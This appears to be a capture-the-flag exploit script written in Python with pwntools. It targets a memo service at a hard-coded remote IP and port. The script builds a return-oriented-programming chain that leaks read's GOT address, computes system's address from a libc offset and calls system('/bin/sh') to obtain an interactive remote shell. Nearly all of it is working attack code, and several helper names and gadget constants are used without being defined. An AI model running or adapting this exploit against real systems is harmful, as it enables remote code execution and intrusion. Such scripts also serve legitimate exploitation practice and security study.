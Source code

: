 ```python
POP_RDX_JMP = 0x401192
W_ADDR = 0x602a00

SYSTEM_READ_OFF = -0xb1620 # -0xb23c0 local

IDX_NEW = 1
IDX_EDIT = 6

context(arch='amd64', os='linux')

p = remote('54.202.7.144', 8888)

login(p, 'A')

new_memo(p, IDX_NEW, 1, 'A')
new_memo_set_index(p, IDX_EDIT)

buf_addr = edit_memo(p, '')
eax_for_read_addr = buf_addr + 24 + 19*8
eax_for_system_addr = eax_for_read_addr + 4
binsh_addr = eax_for_system_addr + 4

buf  = 'A'*24

# puts(READ_GOT)
buf += p64(POP_RDI)
buf += p64(READ_GOT)
buf += p64(PUTS_PLT)
# getchar()
buf += p64(GETCHAR_PLT)
# read(0, W_ADDR, 8)
buf += p64(POP_RDI)
buf += p64(0)
buf += p64(POP_RSI_R15)
buf += p64(W_ADDR)
buf += p64(0) # r15, junk
buf += p64(POP_RBP)
buf += p64(eax_for_read_addr + 4)
buf += p64(POP_RDX_JMP)
buf += p64(8)
# (*W_ADDR)("/bin/sh")
buf += p64(POP_RDI)
buf += p64(binsh_addr)
buf += p64(POP_RBP)
buf += p64(eax_for_system_addr + 4)
buf += p64(POP_RDX_JMP)
buf += p64(0) # rdx, junk

buf += p32((READ_GOT - 0x401528) / 8)
buf += p32((W_ADDR - 0x401528) / 8)
buf += '/bin/sh\x00'

edit_memo(p, buf)
read_addr = u64(p.recv(6) + '\x00\x00')
p.sendline('A' + p64(read_addr + SYSTEM_READ_OFF))

p.interactive()
```
